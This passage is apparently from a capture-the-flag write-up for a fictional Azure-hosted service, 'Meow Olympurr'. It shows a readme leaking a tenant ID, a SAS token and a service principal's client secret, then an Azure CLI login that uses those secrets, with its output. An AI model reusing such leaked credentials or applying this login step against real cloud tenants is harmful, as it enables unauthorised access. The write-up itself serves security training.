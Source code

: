 Using the same SAS token, we can head over to `/dev/readme.md` to read it.

{% code overflow="wrap" %}
```markdown
# Meow Olympurr 
One stop service for all fun activites in Meow Olympurr! 
    
All resources are hosted on a single tenant: 83e595f4-f086-4f2f-9de8-d698b6012093

Meows are not cy-purr security trained, but we are willing to learn! 
    
# To do 
1. Consolidate the asset list 
2. Seek advice from Jaga and team when they arrive! 
3. Integrate services 
4. Remove credentials used for debugging access to function app

# Function app - https://olympurr-app.azurewebsites.net/api/meowvellous
SAS token to access the scm-releases container: ?sv=2018-11-09&sr=c&st=2022-09-01T00%3A00%3A00Z&se=2022-12-12T00%3A00%3A00Z&sp=rl&spr=https&sig=jENgCFTrC1mYM1ZNo%2F8pq1Hg9BO1VLbXlk%2FpABrK4Eo%3D

## Credentials for debugging
The following service principal has the same privileges as the function app
Application ID: ee92075f-4ddc-4522-a12c-2bc0ab874c85
Client Secret: kmk8Q~mGYD9jNfgm~rcIOMRgiC9ekKtNEw5GPaS7
```
{% endcode %}

## I Find Your Lack of Sauce... Disturbing

We are finally one step closer to getting the coveted sauce code for the function app!

It looks like we got our hands on some Azure credentials, and yet another SAS token. Using the tenant ID, application ID and client secret, we can login through the Azure CLI.

```bash
$ az login --service-principal -u ee92075f-4ddc-4522-a12c-2bc0ab874c85 -p kmk8Q~mGYD9jNfgm~rcIOMRgiC9ekKtNEw5GPaS7 --tenant 83e595f4-f086-4f2f-9de8-d698b6012093
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "83e595f4-f086-4f2f-9de8-d698b6012093",
    "id": "bb11df92-eff5-47b6-b940-a3ce6ded6431",
    "isDefault": true,
    "managedByTenants": [],
    "name": "STF2022",
    "state": "Enabled",
    "tenantId": "83e595f4-f086-4f2f-9de8-d698b6012093",
    "user": {
      "name": "ee92075f-4ddc-4522-a12c-2bc0ab874c85",
      "type": "servicePrincipal"
    }
  }
]
```
